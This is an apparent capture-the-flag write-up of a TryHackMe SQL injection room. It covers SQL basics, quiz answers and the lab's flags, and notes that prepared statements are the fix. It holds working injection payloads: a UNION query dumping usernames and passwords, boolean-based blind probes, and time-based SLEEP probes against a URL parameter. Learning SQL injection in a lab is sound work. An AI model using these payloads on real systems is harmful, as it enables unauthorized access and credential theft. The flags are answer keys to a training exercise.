 ### Learn how to detect and exploit SQL Injection vulnerabilities

## Task 1 Brief

SQL injection causes malicious queries to bbe executed.

- What does SQL stand for?
> Structured Query Language

## Task 2 What is a Database?

A database stores electronically collections of data in an organised manner and is controlled by a DBMS (Database Management System).
There are Relational and Non-Relational databbases.

A table is made up of columns and rows. It's like a grid.


- What is the acronym for the software that controls a database?
> DBMS

- What is the name of the grid-like structure which holds the data?
> Table


## Task 3 What is SQL?

### SELECT

Is used to retrieve data from the database.
`select * from users;`

The star means that we tell SQL to get ALL values for "users"

`select username,password from users;`
This means that we want "username" and "password" this time instead of everything.

### LIMIT
`select * from users LIMIT 1;`
With LIMIT we can set how many row we should get returned. LIMIT 1 means we get one row back.

### WHERE
`select * from users where username='admin';`
With this command we get all "users" where the username="admin".
With the WHERE command we can be more specific in our search

`select * from users where username='admin' and password='p4ssword';`
We can also add an and or != to be even more specific. It is like with logical operations in programming.

### WILDCARD
`select * from users where username like 'a%';`
All the rows get returned that have a username that starts with "a".

`select * from users where username like '%mi%';`
All usernames that have a "mi" within them.

### UNION
`SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;`
We can access the data of two tables and combine them into one.

### INSERT
`insert into users (username,password) values ('bob','password123');`
We can use INSERT to insert a new row of data into the table.
Here in this example its "bob" with the password "password123".

### UPDATE
`update users SET username='root',password='pass123' where username='admin';`
We can update the information of an existing user inside of the table with UPDATE.

### DELETE
`delete from users where username='martin';`
We can delete entries from the table with DELETE.

- What SQL statement is used to retrieve data?
> SELECT

- What SQL clause can be used to retrieve data from multiple tables?
> UNION

- What SQL statement is used to add data?
> INSERT

## Task 4 What is SQL Injection?

- What character signifies the end of an SQL query?
> ;

## Task 5 In-Band SQLi

We start by injecting the code "`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`" into the database. This will result into us getting the info we want.


![](Attachments/sqlinjection.png)

We can use the password then to log us into the account getting the first flag.

![](Attachments/first%20flag.png)

> THM{SQL_INJECTION_3840}

## Task 6 Blind SQLi - Authentication Bypass


- What is the flag after completing level two? (and moving to level 3)

We input SQL queries inside of the username and password fields of the login.

![](Attachments/sqlinjection%20login.png)

The result is us getting the flag.

![](Attachments/second%20flag.png)

> THM{SQL_INJECTION_9581}

## Task 7 Blind SQLi - Boolean Based

- gdfgdf

We use:
`admin123' UNION SELECT 1,2,3 from users where username like 'a%`
annd keep on adding charackters until we find that the username is "admin".

Then we use the:
`admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`
Command to do the same just for the password

![](Attachments/flag3.png)

> THM{SQL_INJECTION_1093}

## Task 8 Blind SQLi - Time Based

- What is the final flag after completing level four?

With the:
`admin123' UNION SELECT SLEEP(5);--`
command we can check how many columns the table has. The right answer will take 5 seconds to load because of the SLEEP(5).
`admin123' UNION SELECT SLEEP(5),2;--`
With the above command we will be able to see that the SLEEP(5) function gets executed correctly.

![](Attachments/sleep%20function%20works.png)

We can use the:
``https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(5),2 from users where username like 'admin' and password like '4%';
query to constantly check for the password until we guess it correctly with the help of the query.

``referrer=admin123' UNION SELECT SLEEP(5),2 from users where username like 'admin' and password like '4961%';

4961 is the correct password after enough trying.

![](Attachments/final%20login.png)

With the login credentials we are finally able to log into the account and gain access to the final flag.

![](Attachments/final%20flag.png)

> THM{SQL_INJECTION_MASTER}


## Task 9 Out-of-Band SQLi

- Name a protocol beginning with D that can be used to exfiltrate data from a database.
> DNS

## Task 10 Remediation

- Name a method of protecting yourself from an SQL Injection exploit.
> Prepared Statements
